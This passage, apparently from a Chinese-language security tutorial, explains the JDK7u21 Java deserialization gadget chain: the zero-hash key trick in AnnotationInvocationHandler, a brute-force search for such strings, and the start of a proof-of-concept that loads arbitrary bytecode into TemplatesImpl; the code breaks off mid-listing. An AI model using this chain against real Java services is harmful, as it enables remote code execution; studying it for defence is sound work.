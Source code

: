 这里代码逻辑很简答，遍历 memberValues 这个Map中的每个key和value，计算每个 (127 * key.hashCode()) ^ value.hashCode() 并求和。

我们如何构造一个和恶意TemplateImpl的hash值一致的代理对象呢，JDK7u21中使用了一个非常巧妙的方法： 

* 当 memberValues 中只有一个key和一个value时，该哈希简化成 (127 * key.hashCode()) ^ value.hashCode() 
* 当 key.hashCode() 等于0时，任何数异或0的结果仍是他本身，所以该哈希简化成 value.hashCode() 。 
* 当 value 就是TemplateImpl对象时，这两个哈希就变成完全相等

```java
 public static void bruteHashCode()
    {
        for (long i = 0; i < 9999999999L; i++) {
            if (Long.toHexString(i).hashCode() == 0) {
                System.out.println(Long.toHexString(i));
            }
        }
    }
```

可以通过一个简单的爆破程序找到一个hash值为0的字符串

#### POC代码

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class JDK7u21 {
    public static void main(String[] args) throws Exception {
        byte[] classBytes = Files.readAllBytes(Paths.get("your\\class\\path"));

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{
                classBytes
        });
        setFieldValue(templates, "_name", "CalcExample");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        String zeroHashCodeStr = "f5a5a608";

        // 实例化一个map，并添加Magic Number为key，也就是f5a5a608，value先随便设置一个值
        HashMap map = new HashMap();
        map.put(zeroHashCodeStr, "foo");

        // 实例化AnnotationInvocationHandler类
        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

```